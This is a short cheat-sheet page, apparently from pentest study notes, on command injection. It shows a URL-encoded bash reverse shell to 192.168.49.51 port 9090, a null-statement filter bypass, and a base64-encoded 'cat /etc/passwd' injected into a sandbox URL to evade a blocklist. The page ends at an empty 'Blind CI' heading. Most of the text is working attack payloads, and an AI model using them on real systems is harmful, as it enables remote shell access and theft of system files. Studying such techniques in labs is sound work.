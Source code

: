 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# CI 101

## Input Normalization

We need to consider "bad" characters, i.e., characters that have an assigned meaning along the payload's path. These could be mitigated by enclosing them in **single quotes**, e.g. `bash -c '<cmd>'`, as they inform the target server that this counts as valid parameter data, instead a new parameter entirely. We should also **URL-encode** such characters; for example, on the payload below, the character `&` act as a delimiter to the back-end and the web server will interpret everything after it as an expected parameter-value combination.

{% code overflow="wrap" %}
```bash
$ hURL -U "bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'"

Original    :: bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'
URL ENcoded :: bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.51%2F9090%200%3E%261%27
```
{% endcode %}

## Input Sanitization - Blacklisted

### Null Statement

```bash
wh$()oami
```

### Base64 Encoding

```bash
$ echo "cat /etc/passwd" |base64
Y2F0IC9ldGMvcGFzc3dkCg==
```

{% code overflow="wrap" %}
```
http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`
```
{% endcode %}

## Blind CI
